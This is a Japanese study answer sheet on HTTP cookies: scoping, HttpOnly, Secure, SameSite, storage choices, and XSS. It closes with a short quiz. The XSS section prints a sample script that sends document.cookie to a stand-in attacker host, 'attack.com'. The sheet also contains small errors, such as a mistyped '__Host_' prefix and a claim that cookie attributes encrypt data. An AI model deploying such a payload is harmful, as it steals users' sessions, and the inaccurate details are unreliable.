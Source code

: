 # 【回答】クッキーを理解する

## 課題1

### クッキーとは何でしょうか？「Set-cookie」「ヘッダ」「サーバ」「ブラウザ」という単語を使って、クッキーの仕組みを説明してみてください

Webサーバーからブラウザに送信され、ブラウザに保存されるデータのこと。以降クライアントからサーバへのリクエストには保存されたCookieが添付される。ユーザーのセッション情報・データの管理に使われることが多い。

サーバからクライアントへのレスポンスにHTTPヘッダ`Set-Cookie: <cookie-name>=<cookie-value>`を設定すると、クライアントのブラウザにCookie（名前と値の組み合わせ）が保存される。以降クライアントからサーバーへのリクエストにはHTTPヘッダ`Cookie: <cookie-name>=<cookie-value>`が設定される。

### www.hoge.comで発行されたクッキーは、www.fuga.comにも送信されるでしょうか？その理由を説明してください

送信されない。ドメインが異なるため。

### hoge.com:8080のクッキーはhoge.com:9090にも送信されるでしょうか？

送信される。同一ドメインのため。

### www.hoge.comで発行されたクッキーは、www.api.hoge.comにも送信されるでしょうか？

送信されない。ドメインが異なるため（サブドメインも含んで区別される）。

### クッキーにDomain="hoge.com"を指定した場合、api.hoge.comにもクッキーは送信されるでしょうか？理由を説明してください

送信される。Domain属性が設定された場合、サブドメイン間でもCookieが送られるようになるため。

### ブラウザで実行されるJavaScriptは場合によってはクッキーの値を取得できます。JavaScriptからクッキーの値が取得されることを防ぐことは可能でしょうか？どうすれば良いのでしょうか？

可能。Cookieに`HttpOnly`属性を設定する。

### HTTPS（暗号化）通信の時だけクッキーを送信することは可能でしょうか？どうすれば良いのでしょうか？

可能。`Secure`属性を設定する。

### クッキーにExpiresを設定すると、どのように挙動が変わるでしょうか？

Cookieに有効期限が設定され、有効期限が過ぎたCookieは無効になる。

### SameSite属性について説明してください

`Strict`、`Lax`、`None`の3段階の値を指定して、オリジン間のCookieの送信可否を制限することができる。

```
Set-Cookie: <cookie-name>=<cookie-value>; SameSite=Strict
Set-Cookie: <cookie-name>=<cookie-value>; SameSite=Lax
Set-Cookie: <cookie-name>=<cookie-value>; SameSite=None
```

1. サイトAでHTTPヘッダ`Set-Cookie`でCookieを発行（ここで`SameSite`属性を設定する）
2. 外部サイトB（Aとは別ドメイン）に遷移
3. サイトAに遷移

する場合、B→Aの遷移でHTTPヘッダ`Cookie`でCookieを送信するかどうかを制限できる。

- Strict … Cookieは送信されない。
- Lax … GETリクエストの場合のみCookieを送信する。MDN Web Docsではモダンブラウザ（例えばChromeであればver 80から）のデフォルト値とされている。
- None … どのようなリクエストであってもCookieを送信する。（Chrome 80からは、`Samesite=None`を設定する場合は`Secure`属性の設定が必須になる）

SameSite属性にStrictもしくはLaxを設定することで、悪意のあるCookie設定がしにくくなり、CSRF対策になる。

### クッキーに格納しない方が良い情報の例を、3つ以上挙げてください

- **公開されてはいけない情報** … Cookieの情報は、ブラウザの機能を使うことですべてのユーザーが見ることができる情報なので、システム内部の情報など、脆弱性に繋がる可能性のある情報は格納しないほうがよい
- **変更されてはいけない情報** … Cookieの情報は、ブラウザの機能を使うことですべてのユーザーが変更することができる情報なので、変更されることによってシステムに不可逆な影響を与えてしまうような情報は格納しないほうがよい
- **Cookieで保存するメリットがない情報** … Cookieは送信しないことを明示的に示さない限り全てのリクエストといっしょに添付されるようになるので、Cookieに格納する情報が増えればサーバーとクライアントの間でやりとりされるデータの量は急増する。クライアントの数が増えるとやり取りされるデータの量は更に増えるため、パフォーマンスやスケーラビリティを考慮すると、必要ない場合はCookieは利用しないほうがよい

### クッキーはローカルストレージと混同されることが多々あります。クッキーを使うべきタイミングと、ローカルストレージを使うべきタイミングを挙げてみてください

- **Cookieを使うべきタイミング** … セッションIDやトークンなどの重要なデータを保存したいタイミング。Cookieであれば属性を設定することで情報を暗号化したり有効期限を設定したりして、（localStorageと比べて）情報をセキュアに取り扱うことができる
- **localStorageを使うべきタイミング** … ブラウザに保存したいが、データ量が大きいなどの理由でサーバーとのやりとりを最小限にしたい、かつ、どこかに公開されたり変更されたりしても問題ないデータ

### stack overflowのようなWEB掲示板サービスを開発しているとしましょう。XSS（クロスサイトスクリプティング）により、他ユーザのクッキー情報が抜き出される仕組みを説明してください。どのような対策が考えられますか？

`<script>`などの文字列を書き込まれてしまった場合に、ユーザーがページを表示しようとする時点でそのスクリプトが実行されてしまうような作りになってしまっていた場合

1. サイトに表示するためのテキストを入力するフォームに、悪意のあるユーザーが下記のようなスクリプトを入力する

   ```
   <script>
     window.location="https://attack.com?"+document.cookie;
   </script>
   ```

2. 上記のスクリプトが仕込まれたページにユーザーがアクセスしてしまうと、attack.comにそのユーザーのcookieがクエリパラメータとして送信されてしまう

これを防ぐためには、`<`や`&`などのスクリプトを仕込むための文字のエスケープ処理を十分に用意する必要がある。

## 課題2

### クイズ1

`Set-Cookie`ヘッダに`Domain`を設定しなかった場合と`Domain=mozilla.org`を設定した場合との挙動の比較として、正しい説明はどれか

A.

- `Domain`を設定しなかった場合、`mozilla.org`と`developer.mozilla.org`のどちらもCookieを受信することができる
- `Domain=mozilla.org`を設定した場合、`mozilla.org`のみCookieを受信することができる

B. 

- `Domain`を設定しなかった場合、`mozilla.org`のみCookieを受信することができる
- `Domain=mozilla.org`を設定した場合、`mozilla.org`と`developer.mozilla.org`のどちらもCookieを受信することができる

<details>
  <summary>回答</summary>
  B<br />
  Domainを指定すると、省略した場合より制限が緩和されるため注意
</details>

### クイズ2

`Set-Cookie`ヘッダに`Expire`属性と`Max-Age`属性の両方を設定した場合、どちらが優先されるか

<details>
  <summary>回答</summary>
   Max-Age属性が優先される
</details>

### クイズ3

`Domain`属性が設定されている場合ブラウザに拒否されるようにするためには、Cookieをどのように設定すればよいか

<details>
  <summary>回答</summary>
  Cookieの名前に接頭辞<code>__Host_</code>をつける
</details>

